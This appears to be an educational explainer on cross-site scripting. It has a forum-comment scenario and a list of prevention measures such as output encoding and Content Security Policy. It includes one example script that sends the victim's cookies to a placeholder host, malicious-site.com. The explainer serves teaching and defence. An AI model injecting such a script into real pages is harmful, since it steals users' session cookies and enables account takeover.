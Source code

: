 1. Explain xss attack with an example  

Cross-Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker injects malicious scripts into web pages viewed by other users. These scripts execute in the context of the victim's browser, allowing the attacker to steal sensitive information, hijack sessions, or deface websites. XSS attacks are a significant threat as they can target unsuspecting users and compromise the security and integrity of a web application.

Let's illustrate XSS with a simple example:

Suppose there is a vulnerable web application called "ExampleApp" that allows users to post comments on a public forum. The application displays these comments to other users without proper input validation and output encoding.

1. User posts a comment:
   Alice visits ExampleApp's forum and posts a harmless comment:

   ```
   Hi, everyone! I love using ExampleApp. It's fantastic!
   ```

2. Attacker exploits the XSS vulnerability:
   Bob, an attacker, notices that the application does not sanitize or encode user input before displaying it on the forum. He decides to inject a malicious script into his comment:

   ```
   <script>
     fetch('https://malicious-site.com/steal-cookies?data=' + document.cookie);
   </script>
   ```

   In this example, the script is trying to fetch the victim's browser cookies and send them to a malicious website.

3. Victim sees the comment:
   Now, when the comment section is loaded for other users, Alice's and Bob's comments will be displayed together. The vulnerable application does not differentiate between regular content and malicious scripts. As a result, Alice's browser executes the script injected by Bob.

4. Exploitation:
   The malicious script in Bob's comment successfully executes in Alice's browser. It sends Alice's browser cookies (which may contain sensitive session information or login credentials) to Bob's malicious site without her knowledge.

5. Consequences:
   With access to Alice's session information, Bob can potentially impersonate her on ExampleApp or other websites where she is logged in, leading to unauthorized actions or data theft.

Preventing cross-site scripting can be simple in some circumstances, but it can be much more difficult in others, depending on the application's sophistication and how it handles user-controllable data. In general, preventing XSS vulnerabilities will almost certainly need a mix of the following measures:
1. On arrival, filter the input. Filter user input as precisely as feasible at the point when it is received, based on what is expected or valid input.
2. On the output, encode the data. Encode user-controllable data in HTTP responses at the point where it is output to avoid it being perceived as active content. Depending on the output context, a combination of HTML, URL, JavaScript, and CSS encoding may be required.
3. Use headers that are relevant for the response. You can use the Content-Type and X-Content-Type-Options headers to ensure that browsers read HTTP responses in the way you intend, preventing XSS in HTTP responses that aren't intended to contain any HTML or JavaScript.
4. Policy for Content Security. You can utilize Content Security Policy (CSP) as a last line of defense to mitigate the severity of any remaining XSS issues.
5. Regular security audits and vulnerability assessments are essential to ensure a web application remains protected from such attacks.
